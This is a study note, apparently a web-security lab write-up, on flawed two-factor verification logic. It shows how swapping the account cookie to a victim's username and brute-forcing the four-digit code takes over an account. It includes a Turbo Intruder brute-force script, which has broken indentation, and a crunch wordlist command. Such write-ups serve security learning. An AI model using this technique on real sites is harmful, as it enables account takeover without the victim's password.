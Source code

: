 ## Flawed two-factor verification logic
- flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.

### Example
1. For example, the user logs in with their normal credentials in the first step as follows:
![[Flawed_two-factor_verification_logic1.png]]

2. They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
![[Flawed_two-factor_verification_logic2.png]]

3. When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:
![[Flawed_two-factor_verification_logic3.png]]

4. In this case, an attacker could log in using their own credentials but then change the value of the `account` cookie to any arbitrary username when submitting the verification code.
![[Flawed_two-factor_verification_logic4.png]]
- This is extremely dangerous if the attacker is then able to brute-force the verification code as it would allow them to log in to arbitrary users' accounts based entirely on their username.
- They would never even need to know the user's password.

## Lab solution
Desc --> 2FA broken logic

1. Login with your own credentials:
![[2FA_broken_logic1.png]]
Now, log out of your account.

2. Now, change the verify parameter from "wiener" to victim username.
![[2FA_broken_logic2.png]]

3. Now, generate the 2fa code for carlos and after that follow from below:
4. Now, Send the above request to burp turbo intruder by right click on repeater > extensions > turbo intruder
5. paste the below script:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=2,
                           pipeline=False
                           )

       for i in range(10000):
           engine.queue(target.req, "{0:0>4}".format(i))

def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status == 302:
        table.add(req)
```
Now, we are going to use another method to brute-force the 2fa code.

6. First, creating all the combinations of 2fa 4 digit code with crunch:
run the below command in terminal to generate all the combinations of 4 codes
```python
┌──(hyok㉿kali)-[~/Bof]
└─$ sudo crunch 4 4 0123456789 -o /tmp/2fa_codes.txt
```

7. script of turbo intruder:
![[2FA_broken_logic4.png]]

8. At the time of attack we get the desired result:
![[2FA_broken_logic5.png]]
Now, you can copy the correct 2fa code or you can also just right click on response and then copy the url and paste in the search bar.

